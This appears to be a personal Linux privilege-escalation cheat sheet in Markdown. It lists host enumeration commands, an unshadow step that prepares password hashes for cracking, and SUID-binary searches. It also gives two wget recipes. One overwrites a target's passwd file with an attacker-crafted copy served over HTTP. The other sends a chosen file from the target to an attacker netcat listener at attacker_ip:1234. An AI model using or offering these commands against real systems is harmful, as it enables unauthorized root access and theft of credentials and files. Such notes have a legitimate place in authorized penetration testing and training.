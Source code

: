 # Linux Privesc

```
hostname

uname -a

/proc/version

/etc/issue

ps axjf

ps aux

env

sudo -l

id

/etc/passwd

history

ifconfig

ip route

netstat -ano

netstat -tulpn



```



unshadow passwd.txt shadow.txt > passwords.txt





```  

find / -type f -perm -04000 -ls 2>/dev/null


find / -perm /4000 -type f -exec ls -lda {} \; 2>/dev/null
```

https://gtfobins.github.io/
https://lolbas-project.github.io/
https://www.exploit-db.com/

https://github.com/SolomonSklash/htbenum


## WGET 1 

### Attacker

```
openssl passwd -1 -salt salt pass123
```

localy add to the an example passwd file and make it available on http

```
python3 -m http.server
```

### Target
```
wget -O passwd http://192.168.1.108:8000/passwd
```

login or su to that user with the password 'pass123'

## WGET 2

### Attacker

open netcat to allow the target to push the file

```
nc -lvnp 1234
```

### Target

```
URL=attacker_ip:1234
LFILE=file_to_send
wget --post-file=$LFILE $URL
```

